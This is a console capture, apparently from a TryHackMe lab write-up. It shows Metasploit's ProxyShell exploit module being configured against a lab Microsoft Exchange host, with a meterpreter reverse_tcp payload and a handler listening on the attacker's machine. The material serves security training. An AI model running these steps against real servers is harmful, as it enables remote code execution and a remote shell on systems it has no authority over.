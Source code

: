```console

msf6 > use exploit/windows/http/exchange_proxyshell_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_proxyshell_rce) > show options

Module options (exploit/windows/http/exchange_proxyshell_rce):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   EMAIL                              no        A known email address for this organization
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                             yes       The target host(s), see https://docs.metasploit.com/docs/using-meta
                                                sploit/basics/using-metasploit.html
   RPORT             443              yes       The target port (TCP)
   SSL               true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                            no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                            no        The URI to use for this exploit (default is random)
   UseAlternatePath  false            yes       Use the IIS root dir as alternate path
   VHOST                              no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on
                                        the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Powershell



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/exchange_proxyshell_rce) > set RHOST 10.10.34.30
RHOST => 10.10.34.30
msf6 exploit(windows/http/exchange_proxyshell_rce) > set LHOST 10.8.x.x
LHOST => 10.8.x.x
msf6 exploit(windows/http/exchange_proxyshell_rce) > set EMAIL dev-infrastracture-team@thm.local
EMAIL => dev-infrastracture-team@thm.local
msf6 exploit(windows/http/exchange_proxyshell_rce) > exploit
[*] Started reverse TCP handler on 10.8.x.x:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
```
